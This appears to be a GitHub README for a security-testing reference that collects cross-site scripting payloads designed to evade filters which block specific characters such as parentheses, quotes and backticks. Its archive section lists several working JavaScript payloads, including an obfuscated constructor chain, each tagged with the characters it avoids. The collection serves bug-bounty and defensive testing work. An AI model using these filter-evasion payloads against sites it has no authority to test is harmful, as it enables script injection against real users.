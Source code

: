 # XSS-Payload-without-Anything
XSS Payload without Anything.

## What is XSS Payload without Anything
When I work for a company or bug bounty, the unexpected hurdle is a protection(xss filter) of special char in the JS(Javascript) area. So I am devising a way to easily solve these problems, and one of the processes is this document.



Let's collect a lot of thoughts and solve our problems.

## Concept
It is similar to "Payload all the things" in terms of collecting the payload, but I want to provide a list of payloads with special tag (without char, used char, other..)
I plan to make it easy to search and to show what characters (or what they are made of) are unusable.

### format

without char: `()` `,` `'` 
```
XSS Payload

// usedchar: 
// author: 
// description: 
```

### without char (Frequently filtered characters)
I have selected special characters that are often blocked.
```
( ) 
{ } 
, 
"
'
`
[ ]
\ 
/ 
; 
+ 
. 
=
```
(template): `()` `{}` `,` `"` `'` `backtick` `[]` `\` `/` `;` `+` `.` `=`

### Usage
on Github.com
1) Ctrl + F > 
2) find your problem char 
3) XSS

on hahwul.com
comming soon

## Awesome payload
coming soon

## Archive
### without char: `()` `,` `"` `backtick` `\` `/` `[]` `{}` `.`
```
location='JaVaScRiPt:prompt'+document.location.hash[1]+'45'+document.location.hash[2]
```

### without char: `()` `{}` `,` `"` `backtick` `[]` `/` `+` `.` 
```
onerror=eval;throw'alert\x2845\x29';
```


### without char: `!backtick`
```
prompt`45`
```
### without char: `()` `{}` `,` `"` `backtick``[]` `/` `;` `+` `.`
```
location='javaScriPt:alert\x2845\x29'
```

### without char: `"` `backtick` `\` `/` `;` `.`
```
([,하,,,,훌]=[]+{},[한,글,페,이,,로,드,ㅋ,,,ㅎ]=[!!하]+!하+하.ㅁ)[훌+=하+ㅎ+ㅋ+한+글+페+훌+한+하+글][훌](로+드+이+글+한+'(45)')()
```

### without char: `{}` `,` `"` `'` `backtick` `\` `/` `;` `+` `=`
```
[45].some.alert()
```

### without char: `()` `{}` `,` `"` `'` `[]` `\` `/` `;` `+` `=`
```
Set.constructor`alert\x2845\x29`
```

## Submit XSS Payloads
Add issue form or pull Request
```
XSS Payload:
WithOut: 
Description: 
```
or ...

Tweet with me [@hahwul](https://twitter.com/hahwul)

